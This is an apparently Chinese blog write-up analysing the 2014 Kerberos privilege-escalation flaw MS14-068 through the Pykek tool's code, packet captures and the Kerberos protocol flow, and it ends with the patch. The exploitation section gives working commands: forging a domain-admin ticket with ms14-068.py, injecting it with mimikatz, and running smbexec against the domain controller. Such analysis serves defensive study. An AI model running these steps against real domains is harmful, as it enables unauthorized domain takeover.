通过解读 Pykek 分析 MS14-068


# 通过解读 Pykek 分析 MS14-068

2014.11.18 微软发布 [MS14-068](https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068) 补丁，攻击者在具有任意普通域用户凭据的情况下，可通过该漏洞伪造 Kerberos 票据将普通域用户帐户提升到域管理员帐户权限。

官方通告，影响如下版本

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013430-922d76be-80b8-1.png)

经复现，发现只有 Server 2003、2008 利用成功，继续翻看官方通告，发现指出对 Server 2012 实际上不受影响。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013719-f6a98ae2-80b8-1.png)

## 利用

需要的环境

*   域控：Server 2003/2008
*   一台可访问域控的主机（加域/不加域都可以）
*   一个普通域用户凭据

利用的工具

*   Pykek

### Pykek

项目地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

#### 生成域管权限 TGT

通过 pykek 生成一个域管权限的的 TGT 票据，然后可以通过 mimikatz 或 impacket 导入 TGT 票据进行横向移动。

伪造域管 TGT 票据

```plain
➜  pykek python2 ms14-068.py
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
➜  pykek

python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 -p 1234567
python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 --rc4 328727b81ca05805a68ef26acb252039
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

#### Mimikatz 加载域管 TGT 票据

```plain
kerberos::purge
kerberos::klist
kerberos::ptc TGT_lihua@qftm.com.ccache
```

1）在域主机 win11 登录的域账号 QFTM\\zhangyu 下，进行测试（加载票据 TGT 为 lihua 账户伪造的域管 PAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013758-0e1f15e8-80b9-1.png)

查看访问域控后的内存票据情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013807-136038b6-80b9-1.png)

2）在域主机 win11 登录的本地账号 WORKGROUP\\qm 下，进行测试（加载票据 TGT 为 lihua 账户伪造的域管 PAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013820-1b3ab6e2-80b9-1.png)

查看访问域控后的内存票据情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013829-2086d9fa-80b9-1.png)

注意：

*   通过票据认证时，目标主机需要为主机名-Kerberos 认证不支持 IP
    
*   在 Win Server 2003、Win XP 下使用 mimikatz 进行 `kerberos::ptc xx.cache` 内存导入票据时，会出现以下错误
    

```plain
* Injecting ticket : ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicket Message : c000000d
```

#### Impacket 缓存域管 TGT 票据

```plain
# 指定 TGT 票据
➜  examples git:(master) ✗ export KRB5CCNAME=TGT_lihua@qftm.com.ccache

# 攻击域控
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@dc.qftm.com -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug

# 攻击其它 Target
➜  examples git:(master) ✗ python3 smbexec.py qftm.com/lihua@targetHostname -dc-ip 192.168.1.10 -k -no-pass -code gbk -debug
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013908-37b9ed2e-80b9-1.png)

## 原理

### Kerberos 认证流程

#### AS\_REQ&AS\_REP

第一步：client 和 KDC AS 认证服务通信，用户身份预认证，获取 TGT 认购票据

（1）AS-REQ 请求，Client => KDC AS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013928-43532862-80b9-1.png)

*   客户端向 KDC 的 AS 认证服务发送的 AS-REQ 认证请求中主要包含如下信息
    *   请求的用户名 (cname)
    *   域名 (realm)
    *   pa-data pA-ENC-TIMESTAMP：用户密钥加密的时间戳。用于验证用户并防止重放攻击
    *   请求的服务名 (sname)：AS-REQ 请求的服务都是 KDC krbtgt
    *   加密类型 (etype)
    *   以及一些其他信息：如版本号，消息类型，票据有效时间，是否包含 PAC，协商选项等

（2）AS-REP 响应，Client <= KDC AS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013943-4c3e6662-80b9-1.png)

*   当 KDC 的 AS 认证服务接收到客户端发来的 AS-REQ 请求后，通过活动目录查询到该用户的密码 Hash，根据 AS-REQ 的 req-body 中的 etype 加密类型，用该 Hash 对 AS-REQ 请求包的 `PA-ENC-TIMESTAMP` 进行解密。解密成功后，还会检查要求时间戳的范围在五分钟内且数据包无重放，则预认证成功。
*   返回 KDC 服务账号 krbtgt 的 NTLM Hash 加密后的 TGT（Ticket）和用户 NTLM Hash 加密的 Login Session key（AS 随机生成）。这两部分加密的数据分别对应 AS-REP 响应包中的 Ticket、Enc-part。
*   TGT 主要包含 Login Session Key、时间戳和 PAC。Login Session Key 的作用是让用户和 KDC 后几个阶段之间通信加密的会话密钥。
*   AS-REP 响应包中主要包括如下信息：
    
    *   请求的用户名 (cname)。
    *   域名 (crealm)。
    *   TGT 认购权证
        *   包含明文的版本号，域名，请求的服务名，以及加密部分 enc-part。
        *   TGT 中的 enc-part 加密部分用 krbtgt 密钥加密。
            *   加密部分包含 Logon Session Key、用户名、域名、认证时间、票据到期时间和 authorization-data。authorization-data 中包含最重要的 PAC 特权属性证书 (包含用户的 RID，用户所在组的 RID) 等。
    *   enc-part
        *   使用用户密钥加密 Logon Session Key 后的值，其作用是用于确保客户端和 KDC 下阶段之间通信安全。也就是 AS-REP 中最外层的 enc-part。
    *   以及一些其他信息：如版本号，消息类型等。
*   注意：TGT 票据由 KDC 的 krbtgt ntlm hash 加密，客户端无法伪造
    

#### TGS\_REQ&TGS\_REP

第二步：client 和 KDC TGS 票据授予服务通信，携带 TGT 认购票据，获取 ST 服务票据

（1）TGS-REQ 请求，Client => KDC TGS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013954-531fefd2-80b9-1.png)

*   客户端收到 KDC 的 AS-REP 回复后，拿到了 TGT 认购权证（Ticket）和最外层的 enc-part，然后使用用户密钥解密最外层的 enc-part，得到 Logon Session Key。之后它会在本地缓存此 TGT 认购权证 和 Logon Session Key。
*   使用 Login session key 加密客户端用户名、时间戳等信息，和 TGT 一起向 KDC 的 TGS 票据授予服务发起请求，请求获取 XX 服务票据。
*   请求主要包含如下信息：
    *   域名 (realm)。
    *   请求的服务名 (sname)。
    *   TGT 认购权证。
    *   Authenticator：一个抽象的概念，代表一个验证。这里使用 Logon Session Key 加密的时间戳。
    *   加密类型 (etype)。
    *   以及一些其他信息：如版本号，消息类型，协商选项，票据到期时间等。

（2）TGS-REQ 响应，Client <= KDC TGS

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014004-58ede20c-80b9-1.png)

*   KDC 的 TGS 服务接收到 TGS-REQ 请求之后，首先使用 krbtgt 密钥解密 PA-DATA pA-TGS-REQ 中的 TGT 认购权证中加密部分 enc-part 得到 Logon Session key 和 PAC 等信息，如果能解密成功则说明该 TGT 认购权证是 KDC 颁发的。
*   然后**验证 PAC 的签名**（PAC（ticket/enc-part/authorization-data）中的 PAC\_SERVER\_CHECKSUM、PAC\_PRIVSVR\_CHECKSUM），如果签名正确，则证明 PAC 未经过篡改。
*   然后使用 Logon Session Key 解密 PA-DATA pA-TGS-REQ 中的 Authenticator 得到时间戳、客户端用户名等信息，如果能解密成功且时间戳在有效范围内，则验证客户端的身份（对比 TGT 中的客户端用户名和这里 Authenticator 中的客户端用户名）。
*   完成上述的检测后，TGS 服务发送响应包给客户端，响应包中主要包括如下信息：
    
    *   请求的用户名 (cname)
    *   域名 (crealm)
        
    *   ST 服务票据
        
        *   包含明文的版本号，域名，请求的服务名，以及加密部分 enc-part
            
        *   加密部分 enc-part 用用户要访问目标服务的服务用户密钥加密（要访问的目标服务信息在 TGS-REQ 的 req-body 中）（这里客户端要访问的目标服务为 cifs 服务：cifs/win7-01.qftm.com，cifs 服务用户为 WIN7-01$）
            
            *   加密部分包含用户名、域名、认证时间、票据到期时间、Service Session key 和 authorization-data。authorization-data 中包含最重要的 PAC 特权属性证书 (包含用户的 RID，用户所在的组的 RID) 等。
    *   最外层 enc-part
        
        *   使用 Logon Session key 加密的 Service Session key 和客户端要访问目标服务的服务名等信息
            
        *   Service Session key 作用是用于确保客户端和客户端要访问的目标服务下阶段之间通信安全
            
    *   以及一些其他信息：如版本号、消息类型等。
        
*   注意：ST 票据由用户要访问目标服务的服务用户密钥加密，客户端无法伪造
    

#### AP\_REQ&AP\_REP

第三步：client 和 Server 目标服务通信，携带 ST 服务票据

*   AP-REQ 请求，Client => Server
    
    *   客户端接收到 KDC 的 TGS-REP 后，通过缓存的 Logon Session Key 解密 TGS\_REP 最外层的 enc-part 得到 Service Session Key，同时在 TGS\_REP 最外层的 ticket 拿到了 ST(Service Ticket) 服务票据。Serivce Session Key 和 ST 服务票据会被客户端缓存。
    *   客户端访问指定服务时，把客户端用户名、时间戳等信息用 Server Session key 加密，同服务票据（ST）发送给目标服务，发起 AP-REQ 请求，该请求主要包含如下的内容：
        
        *   ST 服务票据 (ticket)
        *   Authenticator：Serivce Session Key 加密的时间戳、客户端用户名等信息
            
        *   以及一些其他信息：如版本号、消息类型，协商选项等
            
*   AP-REP 响应，Client <= Server
    
    *   服务端收到客户端发来的 AP-REQ 消息后，通过服务密钥解密 ST 服务票据得到 Service Session Key 和 PAC 等信息
    *   然后用 Service Session Key 解密 Authenticator 得到时间戳和客户端用户名信息。如果能解密成功且时间戳在有效范围内，则验证客户端的身份（对比 ST 中的客户端用户名和这里 Authenticator 中的客户端用户名）。
    *   验证了客户端身份通过后，服务端从 ST 服务票据中验证 PAC 中服务签名（PAC\_SERVER\_CHECKSUM），签名正确，则证明 PAC 未经过篡改。如果服务开启了 KDC 验证 PAC 的签名（PAC\_PRICSVR\_CHECKSUM），还会向 KDC 发送 KERB\_VERIFY\_PAC 验证 PAC 的签名。
    *   服务端从 ST 服务票据中取出 PAC 中代表用户身份权限信息（PAC\_LOGON\_INFO）的数据，然后与请求的服务 ACL 做对比，判断用户是否有访问服务的权限，生成相应的访问令牌。
        *   只要 TGT 票据中不带有 PAC，那么 ST 票据中也不会带有 PAC，也就没有权限访问任何服务。
    *   同时，服务端会检查 AP-REQ 请求中 mutual-required 协商选项是否为 True
        *   如果为 True 的话，说明客户端想验证服务端的身份。此时，服务端会用 Service Session Key 加密时间戳作为 Authenticator，在 AP-REP 响应包中发送给客户端进行验证。
        *   如果 mutual-required 选项为 False 的话，服务端会根据访问令牌的权限决定是否返回相应的服务给客户端。

### 提权疑问

*   PAC 中存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC 签名 PAC\_PRICSVR\_CHECKSUM）（TGT 认购票据中两个签名均为 krbtgt 用户的 NTLM Hash 进行签名、ST 服务票据中服务签名为目标服务用户的 NTLM Hash 进行签名，KDC 签名为 krbtgt 用户的 NTLM Hash 进行签名），但客户端并不知道 KDC 和 Server 用户的 NTLM Hash，那么伪造 PAC 高权限 LOGON INFO 后，怎么进行有效签名呢？
*   PAC 存储在 Ticket 票据的 enc-part 中，但 enc-part 由 Server 用户 NTLM Hash 加密，客户端并不知道 Server 用户的 NTLM Hash，也就无法将伪造的 PAC 放入 Ticket 的 enc-part 中，那么怎么解决 PAC 的有效存储呢？
    
*   客户端协商服务端使用的加密算法，为什么是 RC4\_HMAC？
    
*   TGS-REP 响应获取的 ST 服务票据，为什么可以作为域管权限 TGT 认购票据？

### 漏洞分析

漏洞攻击，伪造获取域管权限的 TGT 票据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

流量如下

```plain
ip.addr == 192.168.1.10 && kerberos
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014227-ae3187f0-80b9-1.png)

结合 pykek 源码进行分析

#### AS-REQ

Client => KDC AS

构造 as-req 请求包、发送 as-req 请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014305-c4c68e20-80b9-1.png)

1、kek.krb5.build\_as\_req 函数，构造 as-req 请求包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014316-cb4ebcb8-80b9-1.png)

*   key (user\_key)，与 key 相关的加密算法为 RC4\_HMAC

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014357-e3a3de56-80b9-1.png)

*   kek.krb5.build\_req\_body 函数，构造 req-body（包括：KDC 选项 - 默认 0x50800000、客户端用户名、服务端用户名 - 默认 krbtgt、时间、支持的算法 - 默认 RC4\_HMAC）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014650-4ab64f84-80ba-1.png)

*   kek.krb5.build\_pa\_enc\_timestamp 函数，构造 pa-enc-timestamp，（客户端用户 NTLM Hash 加密的时间戳，key\[0\]为加密算法-RC4\_HMAC，key\[1\]为用户 NTLM Hash）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014658-4f8b831c-80ba-1.png)

*   将 pa-enc-timestamp 放入 padata\[0\] 中
    
*   构造 pA-PAC-REQUEST，pac\_request 为 false，所以 include-pac=false
    
*   将 pA-PAC-REQUEST 放入 padata\[1\]中
    
*   kerberos 版本信息、消息类型等
    

2、kek.krb5.send\_req 函数，发送 as-req 请求

*   使用 socket 与 KDC 连接通信，将构造的 req 请求包进行发送

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014725-5fddb212-80ba-1.png)

as-req 请求流量如下

*   pA-ENC-TIMESTAMP，客户端用户 NTLM Hash 加密的时间戳
    
*   pA-PAC-REQUEST，include-pac 的值决定了 KDC 在 AS-REP 响应中返回的票据是否包含 PAC
    
    *   这里指定了 Fasle，代表 KDC AS 认证服务在返回 TGT 认购票据中不需要包含 PAC
    *   为什么这里要指定 False
        
        *   如果指定为 True，客户端在 KDC AS-REP 响应收到 TGT 票据时，由于 TGT 是由 KDC 的 krbtgt 用户 NTLM Hash 加密的，所以客户端无法解密提取 PAC 进行篡改
    *   如果获取的 TGT 不包含 PAC，那怎么伪造 PAC 呢，下面会介绍
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014737-67325c8e-80ba-1.png)

#### AS-REP

Client <= KDC AS

接收 as-rep 响应、解析 as-rep 响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014749-6e4e8cd6-80ba-1.png)

1、kek.krb5.recv\_rep 函数，接收 as-rep 响应

*   接收 socket 通信的响应数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014804-771f1be6-80ba-1.png)

2、kek.krb5.decrypt\_as\_rep 函数，解析 as-rep 响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014814-7ce417a2-80ba-1.png)

*   调用 kek.krb5.\_decrypt\_rep 函数，主要解密 as-rep 最外层的 enc-part（KDC 使用客户端用户 NTLM Hash 加密的 Logon session key，加密算法为 as-req 中 req-body 里面 etype 指定支持的加密算法 - 这里 as-req=》req-body=〉etype 为 RC4\_HMAC）
    
    *   调用 kek.crypto.decrypt 函数解密，传入 key\[0\]为加密算法-RC4\_HMAC，key\[1\]为客户端用户 NTLM Hash

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014825-83d78a08-80ba-1.png)

*   得到 as-rep 响应包（Ticket-TGT 认购权证等）、as-rep.enc-part 解密后的明文

as-rep 响应流量如下

*   ticket，TGT 认购票据
    *   ticket.enc-part 密文为 KDC krbtgt 用户 NTLM Hash 加密，加密内容包含 Logon session key、客户端用户名、域名、认证时间、票据到期时间等（注意：这里由于 as-req 中 include-pac=false，所以 TGT 中不包含 PAC）
*   enc-part，KDC 使用客户端用户 NTLM Hash 加密的 Logon session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014833-8885fd78-80ba-1.png)

注意：客户端和服务端之间的加密算法

*   为什么客户端协商服务端使用的加密算法为 RC4\_HMAC【AS-REQ 中 req-body 里面的 etype】
    
    *   AS-REQ 中客户端使用域用户 NTLM Hash 加密时间戳的算法为 RC4\_HMAC（服务端收到请求后通过 RC4\_HMAC 进行解密该部分）
        
    *   AS-REP 中服务端使用 krbtgt 用户 NTLM Hash 加密 Logon Session Key 的算法为 RC4\_HMAC（客户端收到响应后通过 RC4\_HMAC 进行解密该部分）
        
    *   因为 MS14-068 漏洞作用于域控 Server 2003、2008，但是 Server 2008 及之后才开始支持 AES\_HMAC 算法，那么编写攻击 Exp 就要考虑 Server 2003 的域控了，所以当攻击者和域控协商密钥时选择 RC4\_HMAC 进行兼容。
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014849-921ec522-80ba-1.png)

*   对于服务端自己加密的票据（TGT、ST），就无须考虑客户端了（TGT 由 KDC 自身进行加解密、ST 由 KDC 加密，Server 解密）

#### TGS-REQ

Client => KDC TGS

构造域管权限 PAC、构造 PAC 有效签名、构造 tgs-req 请求包、发送 tgs-req 请求

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014900-985be9ba-80ba-1.png)

1、kek.pac.build\_pac 函数，构造域管权限 PAC、构造 PAC 有效签名

*   kek.pac.\_build\_pac\_logon\_info 函数，构造域管权限
*   kek.crypto.checksum 函数，构造 PAC 有效签名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014909-9da4a010-80ba-1.png)

*   kek.pac.\_build\_pac\_logon\_info 函数，构造域管权限（配置 PAC 结构 PAC\_LOGON\_INFO 中的 GroupIds，将普通域用户所在组进行变更，新增高权限域组 Domain Admins/Schema Admins/Enterprise Admins/Group Policy Creator Owners，从而使特定普通域用户具有域管权限）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014925-a7109d98-80ba-1.png)

*   kek.crypto.checksum 函数，构造 PAC 有效签名
    
    *   Kerberos 认证 KDC **漏洞一**
    *   前面提到的《提权疑问》之一“TGT 中 PAC 结构最后存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC 签名 PAC\_PRICSVR\_CHECKSUM），但客户端并不知道 krbtgt ntlm hash，那么如何对伪造 PAC 高权限 LOGON INFO 后的 PAC 进行有效签名呢？”
    *   官方文档指出 PAC 签名算法为 HMAC 算法，HMAC 算法需要一个加密密钥的参与（密钥 key：Server/KDC User's NTLM Hash），但官方在 PAC 签名功能的实际代码实现上存在问题，即非 HMAC 算法的 checksum 算法也可以通过 KDC 的签名校验！！！
    *   所以，利用**PAC 签名漏洞**，使用非 HMAC 算法的 MD5 算法（不需要加密密钥）进行签名（Server/KDC checksum），可以构造 PAC 有效签名

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014933-abd9c30e-80ba-1.png)

2、kek.krb5.build\_tgs\_req 函数，构造 tgs-req 请求包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014941-b0fc04d2-80ba-1.png)

*   session\_key (logon\_session\_key)，与 session\_key 相关的加密算法为 RC4\_HMAC (AS\_REP 响应中 KDC 使用 RC4\_HMAC 加密 logon\_session\_key \[KDC 为什么使用 RC4\_HMAC 加密该部分，上面 AS\_REP 中有解释\])

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014956-b9964c7e-80ba-1.png)

*   subkey，与 subkey 相关的加密算法为 RC4\_HMAC（上面 AS\_REQ 中有解释，客户端为什么使用 RC4\_HMAC 加密数据），kek.crypto.generate\_subkey 函数生成 subkey，etype=RC4\_HMAC、key=16 位随机数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015005-bee9f50e-80ba-1.png)

*   Kerberos 认证 KDC **漏洞二**
    
    *   前面提到的《提权疑问》之一“PAC 存储在 Ticket 票据的 enc-part 中，但 enc-part 由 Server 用户 NTLM Hash 加密，客户端并不知道 Server 用户的 NTLM Hash，也就无法将伪造的 PAC 放入 Ticket 的 enc-part 中，那么怎么解决 PAC 的有效存储呢？”
    *   官方文档指出 PAC 加密存储在 Ticket 票据的 enc-part 中，当 KDC 收到 tgs-req 请求后，会解密 TGT 认购票据拿到 PAC 并校验 PAC 签名，但官方在 PAC 解密功能的实际代码实现上存在问题，即非 TGT 认购票据中的 PAC 也会被 KDC 进行解密并校验 PAC 签名！！！
    *   所以，利用**PAC 解密漏洞**，在不使用 TGT 票据存储 PAC 的情况下，通过 TGS\_REQ 中 req\_body 里面的 enc-authorization\_data 字段存储伪造的域管权限 PAC，解决 PAC 有效存储
*   加密 PAC（密钥为 subkey，加密类型为 RC4\_HMAC），存储在 TGS\_REQ.req\_body.enc-authorization-data 中
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015016-c5cbfaf2-80ba-1.png)

*   kek.krb5.build\_req\_body 函数，构造 req-body（包括：KDC 选项 - 默认 0x50800000、服务信息 - 用户名 - 默认 krbtgt、时间、支持的算法 - 默认 RC4\_HMAC、enc-authorization-data 存储加密的 PAC）【由于这里 TGS\_REQ 请求的服务端用户名为 krbtgt，所以 TGS\_REQ 请求向 KDC 请求的 ST 服务票据为 KDC 的服务票据，相当于 TGS\_REP 响应获取的 ST 服务票据为 TGT 认购票据】

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015033-d0126d2a-80ba-1.png)

*   kek.krb5.build\_ap\_req 函数，构造 pA-TGS-REQ，（包括 ticket、logon\_session\_key 加密的 authenticator，key\[0\]为加密算法-RC4\_HMAC，key\[1\]为 logon\_session\_key）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015043-d5be9604-80ba-1.png)

*   kek.krb5.build\_authenticator 函数，构造 authenticator（包括客户端用户名、时间、subkey、req\_body 的 checksum 等）（与正常 TGS\_REQ.pA-TGS-REQ.ap-req.authenticator 相比，多了 subkey、req\_body 的 checksum）

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015053-dbcb4d9e-80ba-1.png)

*   将 pA-TGS-REQ 放入 padata\[0\] 中
    
*   构造 pA-PAC-REQUEST，pac\_request 为 false，所以 include-pac=false【**注意**：这里 TGS\_REQ 中 include-pac=false，且 TGT 中不包含 PAC，为什么 TGS\_REP 返回的 ST 票据中仍包含域管权限 PAC 呢？因为即使 include-pac=false 表示返回的 ST 票据不需要包含 PAC，但是 KDC 处理了 TGS\_REQ.req\_body.enc-authorization-data 中加密的 PAC，导致返回的 ST 票据中，仍然包含 PAC】
    
*   将 pA-PAC-REQUEST 放入 padata\[1\]中
    
*   kerberos 版本信息、消息类型等
    

3、kek.krb5.send\_req 函数，发送 tgs-req 请求

*   使用 socket 与 KDC 连接通信，将构造的 req 请求包进行发送

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014725-5fddb212-80ba-1.png)

tgs-req 请求流量如下

*   pA-TGS-REQ，ap-req
    *   ticket，TGT 认购票据（不包含 PAC，AS\_REQ 中 include-pac=false 表明返回的 TGT 中不需要包含 PAC）
    *   authenticator，logon\_session\_key 加密的客户端用户名、时间、subkey、req\_body 的 checksum 等
*   pA-PAC-REQUEST，include-pac 的值决定了 KDC 在 TGS-REP 响应中返回的票据是否包含 PAC
    
    *   这里指定了 Fasle，代表 KDC TGS 票据授予服务在返回 ST 服务票据中不需要包含 PAC
    *   根据上面的分析，实际上，这里的 TGS\_REQ 请求中，include-pac 的值无论取 false 还是 true，TGS\_REP 响应包返回的 ST 服务票据中都会包含 PAC
*   sname，请求的目标服务 ST 票据的服务信息 - 用户名 - 默认 krbtgt，相当于返回的 ST 服务票据是一个 TGT 认购票据
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015151-fe32c7d6-80ba-1.png)

#### TGS-REP

Client <= KDC TGS

接收 tgs-rep 响应、解析 tgs-rep 响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015159-034210ba-80bb-1.png)

1、kek.krb5.recv\_rep 函数，接收 tgs-rep 响应

*   接收 socket 通信的响应数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014804-771f1be6-80ba-1.png)

2、kek.krb5.decrypt\_tgs\_rep 函数，解析 tgs-rep 响应包

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015248-202097ec-80bb-1.png)

*   调用 kek.krb5.\_decrypt\_rep 函数，主要解密 tgs-rep 最外层的 enc-part（KDC 使用 Logon session key 加密的 Server Session Key、客户端要访问目标服务的服务用户名信息等，加密算法为 tgs-req 中 req-body 里面 etype 指定支持的加密算法 - 这里 tgs-req=》req-body=〉etype 为 RC4\_HMAC）
    
    *   调用 kek.crypto.decrypt 函数解密，传入 key\[0\]为加密算法-RC4\_HMAC，key\[1\]为客户端缓存的 Logon session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112014825-83d78a08-80ba-1.png)

*   得到 tgs-rep 响应包（Ticket-ST 服务票据等）、tgs-rep.enc-part 解密后的明文

tgs-rep 响应流量如下

*   ticket，ST 服务票据
    *   ticket.sname，服务信息 - 用户名-krbtgt（相当于返回的 ST 服务票据为 TGT 认购票据）
    *   ticket.enc-part 密文为客户端要访问目标 Server 的（这里访问的 Server 为 KDC，用户为 krbtgt）用户 NTLM Hash 加密，加密内容包含 Server session key、客户端用户名、域名、认证时间、票据到期时间、PAC 等
*   enc-part，KDC 使用 Logon session key 加密的 Server session key

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015325-363d7ab8-80bb-1.png)

### 疑问解答

*   PAC 中存在两个签名（服务签名 PAC\_SERVER\_CHECKSUM、KDC 签名 PAC\_PRICSVR\_CHECKSUM）（TGT 认购票据中两个签名均为 krbtgt 用户的 NTLM Hash 进行签名、ST 服务票据中服务签名为目标服务用户的 NTLM Hash 进行签名，KDC 签名为 krbtgt 用户的 NTLM Hash 进行签名），但客户端并不知道 KDC 和 Server 用户的 NTLM Hash，那么伪造 PAC 高权限 LOGON INFO 后，怎么进行有效签名呢？
    *   **解答**：Kerberos KDC PAC 签名漏洞
*   PAC 存储在 Ticket 票据的 enc-part 中，但 enc-part 由 Server 用户 NTLM Hash 加密，客户端并不知道 Server 用户的 NTLM Hash，也就无法将伪造的 PAC 放入 Ticket 的 enc-part 中，那么怎么解决 PAC 的有效存储呢？
    
    *   **解答**：Kerberos KDC PAC 解密漏洞
*   客户端协商服务端使用的加密算法，为什么是 RC4\_HMAC？
    
    *   **解答**：兼容 Server 2003 的域控环境
*   TGS-REP 响应获取的 ST 服务票据，为什么可以作为域管权限 TGT 认购票据？
    *   **解答**：请求的 ST 服务票据为 KDC 服务票据

### 攻击域控

拿到域管权限的 TGT 认购权证（TGS-REP 中返回的 ST 服务票据）后，可以进行 PtT 横向移动攻击域控

[](https://xzfile.aliyuncs.com/media/upload/picture/20231112015340-3f2f637a-80bb-1.png)

## 修复

*   安装补丁

[https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068](https://learn.microsoft.com/zh-cn/security-updates/securitybulletins/2014/ms14-068)
